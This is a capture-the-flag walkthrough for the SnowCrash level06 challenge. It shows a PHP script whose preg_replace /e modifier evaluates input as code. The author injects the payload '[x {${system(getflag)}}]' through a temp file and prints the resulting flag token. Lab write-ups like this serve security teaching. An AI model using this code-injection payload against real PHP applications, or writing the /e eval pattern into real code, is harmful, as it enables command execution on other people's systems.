 level06@SnowCrash:~$ strings level06
[...]
execve
[...]
free
[...]
/usr/bin/php
/home/user/level06/level06.php
;*2$"$
[...]


level06@SnowCrash:~$ strings level06.php 
#!/usr/bin/php
<?php
function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
$r = x($argv[1], $argv[2]); print $r;

FOR LATER : echo > /tmp/test.txt "Hello :D"
./level06 "/tmp/test.txt"
	Hello :D


first function captures everything after x in [x {...}] and executes whatever is in {...} as php code
using the second function that replaces '.' by ' x ' and '@' by 'y ' (unused in our case)

if we give : "[x {${system(getflag)}}]" as input from /tmp/test.txt file 
first function will isolate "{${system(getflag)}}", secon won't replace anything
and "system" executes a  command ("getflag") and returns the result which is interpretad as 
a variable because of the '$'

return :
level06@SnowCrash:~$ ./level06 /tmp/test.txt "useless ?"
PHP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/user/level06/level06.php(4) : regexp code on line 1
Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub in /home/user

getflag is given without any quote which makes php thinks it's a constant variable (notice message)
but still continues with the system(getflag) call even with this notice
